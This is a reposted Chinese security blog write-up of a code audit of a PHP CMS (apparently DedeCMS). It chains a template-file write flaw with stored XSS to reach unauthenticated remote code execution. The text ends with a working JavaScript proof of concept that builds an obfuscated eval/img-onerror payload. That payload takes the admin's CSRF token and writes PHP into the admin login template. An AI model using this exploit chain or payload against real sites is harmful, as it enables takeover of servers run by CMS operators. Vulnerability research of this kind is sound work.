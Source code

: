 #  记一次代码审计中RCE挖掘及POC编写   
 黑白之道   2023-11-26 08:36  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
文章来源：先知社区  
  
文章链接：  
https://xz.aliyun.com/t/13008  
  
作者：雨下整夜  
  
在前面熟悉代码的过程中，可以注意到此CMS的模板引入方式。以catalog_add.php文件为例，直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在php中，include的使用需要更谨慎才对。include XXInclude('templets/catalog_add.htm');  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfd3xZICvcjJ229yDNyG5ic5gJIJSUM3ictORibtS4Ttqo7RSr2dtbg0NoHA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
问题出现在src/admin/file_manage_control.php文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdWsYibD7Icu0Khp8Nd3sdNgN9MsMfBXPBgD0xibcjwicIco8ejG1rdE6EQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
查看变量处理，针对变量$activepath，处理的关键逻辑在15、16、17行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdHXvqUUI6QADlt6XyHbEuuWiaZicl58pvJzREjoL1DQFgQL5CBKp886IQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
针对变量$filename，处理的关键逻辑在44-48行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的..  
，并限制可以上传或编辑的文件扩展名不能为(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)其中的任意项。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdJKSQjJAK0vO4e7udcTtEzRXzPBm4O3BvrnIH3iakLqLnjjRUEQ60JTg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀htm会是合法的。  
所以，此时可以将任意文件内容写入到htm文件中，为什么要写入到htm文件？因为此系统所使用的模板文件就是htm，而我前面提到了直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中会造成的危害也就是这里体现出来：将php脚本放在htm中，当被include的时候，php脚本便会执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdnkjl3sxcFSf6WmzkFSVhCEoUFchWPSQYhTtTIrFt6Vic3GshN1nic4Rw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdB1VGxibC3L1mcF6tzJFUcXqQW3AY8gkQFCkC2n9iboRe5pfprsu1XEuQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 组合拳进行危害提升  
  
上面可以通过模板文件写入的方式RCE了，但是很鸡肋，这样只能是后台rce，这时候想将漏洞变成未授权的RCE只需要解决两个问题：  
1 只有管理员权限才能访问/admin路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过login文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过XSS、或者CSRF打出组合拳或者直接尝试找到SQL注入登录后台就能解决。  
那接下来的思路就是通过找到有效的XSS/CSRF/SQL注入，让我们能以管理员的身份写入shell到/admin/login.htm文件中。  
进入到src/admin/article_edit.php文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处148行有一处疑似有问题的SQL语句。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdpEytCjcIYpZvyDPFxJPiaibkbiaepibbzLmRTnrhwn0UGicNUe3rSOBQsGA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
这个查询语句的目的是将一条记录跟新到名为 $addtable  
(此处即biz_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。  
```
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```  
  
进一步跟进dsql->ExecuteNoneQuery函数，发现系统是在执行SQL的时候做了安全检查，跟进CheckSql，发现是有针对SQL注入存在详细的过滤，不排除有绕过SQL的手法，但是此处选择另一条简单的利用思路。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdvs1APuUvp7hlrKEsaKEnfgZ8jnQunwN7GWhq4CkykXW1fD1DU4IsAQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdrwbkkUFlGXDtcYdcZblJlyx9M3DN2TI9IuwpAw4iaruKlbptRwuvp9Q/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
因为没有对参数做xss的过滤，所以此时考虑利用存储型的XSS漏洞即可，去功能点用payload插入含有输出点的body参数进行测试，发现成功执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdiaqd7e84XeY16RhFzebHSHWBYbEYHMTrmD3vJ2gDHWs9JicL6ib8GVk3w/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdDq9ZnU7s43A4GbN4A4gGiagvJxogZBvFJfuddcBmuskibP4HDKl0WEibA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 整合思路编写POC  
  
思路也是比较清晰1.攻击者利用普通用户的文档编辑功能，将XSS的payload藏在文档中。2.管理员用户对普通用户的文档进行审核时执行XSS的payload，在不知情的情况下将shell写在/admin/login.htm文件中3.getshell，地址为：http://xxx/admin/login.phpPOC和部分截图放在下面  
```
//将此脚本放在浏览器控制台执行即可获得payload
var codeString = "//  获取URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('<img src="x"\n  onerror="eval(String.fromCharCode('+asciiString+'))">')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaOKjfiaN6MA1vuADevl5pfdj2BBuhpSWmKCiaskOZT7m6V5LtOls0em4BDKHzvDJwvB2niadsHl8dGw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
